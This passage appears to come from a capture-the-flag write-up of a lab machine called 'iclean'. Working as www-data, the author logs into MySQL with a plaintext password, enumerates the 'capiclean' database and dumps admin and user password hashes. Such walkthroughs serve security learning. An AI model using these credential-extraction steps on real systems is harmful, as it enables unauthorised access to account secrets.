 ```bash
www-data@iclean:/opt/app$ mysql -u'iclean' -p
Enter password: pxCsmnGLckUb
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 450
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

In the capiclean database there is a 'users' table:

```bash
mysql> use capiclean;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.01 sec)
```

I will describe it to see the columns and extract the interesting ones:

```bash
mysql> describe users;
+----------+-------------+------+-----+---------+----------------+
| Field    | Type        | Null | Key | Default | Extra          |
+----------+-------------+------+-----+---------+----------------+
| id       | int         | NO   | PRI | NULL    | auto_increment |
| username | varchar(50) | NO   | UNI | NULL    |                |
| password | char(64)    | NO   |     | NULL    |                |
| role_id  | char(32)    | NO   |     | NULL    |                |
+----------+-------------+------+-----+---------+----------------+
4 rows in set (0.00 sec)
```

```bash
mysql> select username,password from users;
+----------+------------------------------------------------------------------+
| username | password                                                         |
+----------+------------------------------------------------------------------+
| admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 |
| consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa |
+----------+------------------------------------------------------------------+
2 rows in set (0.00 sec)
```
